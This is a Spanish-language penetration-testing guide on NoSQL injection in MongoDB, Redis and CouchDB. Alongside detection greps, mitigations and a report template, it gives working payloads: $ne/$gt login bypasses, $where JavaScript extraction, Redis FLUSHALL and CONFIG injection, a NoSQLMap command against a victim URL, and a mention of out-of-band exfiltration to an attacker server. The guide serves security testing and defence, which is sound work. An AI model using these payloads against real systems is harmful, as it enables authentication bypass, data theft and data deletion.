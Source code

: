 # NoSQL Injection (NoSQLi)

## Resumen

NoSQL Injection aprovecha la falta de validación de entrada en aplicaciones que usan bases de datos NoSQL (MongoDB, CouchDB, Redis, Cassandra) para manipular consultas, obtener datos no autorizados, modificar o eliminar registros. Aunque NoSQLi carece de SQL tradicional, los operadores y sintaxis de los motores NoSQL permiten patrones similares de inyección.

## Contexto

Motores comunes:

- **MongoDB:** JSON‐style queries (`db.users.find({ … })`)
- **CouchDB:** MapReduce con JavaScript
- **Redis:** comandos construidos dinámicamente
- **Cassandra:** CQL con parámetros en strings

Las aplicaciones web suelen construir consultas NoSQL concatenando input de usuario en objetos JSON o cadenas, p. ej.:

```javascript
// Node.js + MongoDB
const query = { username: req.body.user, password: req.body.pass };
db.collection('users').findOne(query, …);
```

## Metodología de Ataque

### 1. Identificación de Puntos de Inyección

- Endpoints de login/autenticación (`user`, `pass`).
- Filtros de búsqueda (`q=`, `filter=`).
- Parámetros en JSON para APIs (`{ "field": value }`).
- Campos de consulta en plantillas de servidor.

### 2. Pruebas Manuales

#### 2.1 MongoDB JSON Injection

- **Bypass de login:**
  Enviar `{ "user": { "$ne": null }, "pass": { "$ne": null } }` en JSON

```json
{ "user": { "$gt": "" }, "pass": { "$gt": "" } }
```

- **Exfiltración de datos:**
  Usar `$where` para ejecutar JavaScript en servidor:

```javascript
{ "$where": "this.password.length > 0" }
```

- **Proyección de campos:**
  Manipular objetos de consulta para retornar campos inesperados.

#### 2.2 Redis Command Injection

- Si la aplicación concatena input a un comando Redis:

```bash
SET session:{user_input} userdata
```

el atacante puede inyectar `; FLUSHALL` o `\r\nCONFIG GET *`.

#### 2.3 CouchDB JavaScript Injection

- MapReduce functions pueden incluir input sin sanitizar:

```javascript
function(doc) {
  if (doc.user == params.user) emit(doc._id, doc);
}
```

Inyectar `"; emit(1,1); //`.

## Pruebas Manuales

1. **Login Bypass:** JSON body

```http
POST /login HTTP/1.1
Content-Type: application/json

{"user":{"$ne":null},"pass":{"$ne":null}}
```

2. **Boolean Blind:**
   Cambiar valor para condicionar respuesta (200 vs 401).
3. **Error-Based:** Forzar error de ejecución JavaScript en `$where`.
4. **Out-of-Band:** `$where` que envíe HTTP a servidor atacante usando `require('http').get()`.

## Automatización

- **NoSQLMap**: escaneo y explotación automática para MongoDB y Redis.

```bash
nosqlmap -u "https://victim.com/login" --data '{"user": "FUZZ", "pass": "test"}' --method POST
```

- **Burp Suite**: usar Intruder con payloads JSON de operadores `$ne`, `$gt`, `$regex`, `$where`.

## Explotación / Impacto

- **Bypass de autenticación** y acceso a cuentas.
- **Extracción de colecciones completas** y datos sensibles.
- **Modificación o eliminación de datos** arbitrarios.
- **Ejecución remota de JavaScript** en servidor (MongoDB `$where`).
- **Pivot a otros servicios** internos (Redis ataques de flushall).

## Detección

```bash
# Logs que muestren operadores NoSQL
grep -E '\$ne|\$gt|\$where|\$regex' access.log
```

Monitor real‐time:

```bash
tail -f access.log | grep -E '\$'
```

## Mitigaciones

1. **Validación y saneamiento** de input: rechazar operadores (`$` prefix).
2. **Construir consultas con parámetros** sin concatenar JSON:

```javascript
db.users.findOne({ user: sanitize(user), pass: sanitize(pass) });
```

3. **Whitelisting de campos** permitidos en filtros y proyecciones.
4. **Deshabilitar `$where`** o JavaScript execution en queries.
5. **Principio de mínimos privilegios**: cuenta de DB con permisos restringidos.

## Reporte

**Título:** NoSQL Injection – Manipulación de Consultas JSON
**Resumen Ejecutivo:** El endpoint de login construye la consulta MongoDB a partir de input no validado, permitiendo bypass y extracción de datos mediante operadores como `$ne`, `$gt`.
**Pasos de Reproducción:**

1. Enviar JSON con `{ "user": { "$ne": null }, "pass": { "$ne": null } }`.
2. Confirmar login exitoso sin credenciales válidas.
3. Extraer colección: usar `{ "$where": "this.password.match(/.*/)" }`.
   **Mitigación Recomendada:** Validar input, rechazar operadores NoSQL, usar consultas parametrizadas y deshabilitar JavaScript queries.

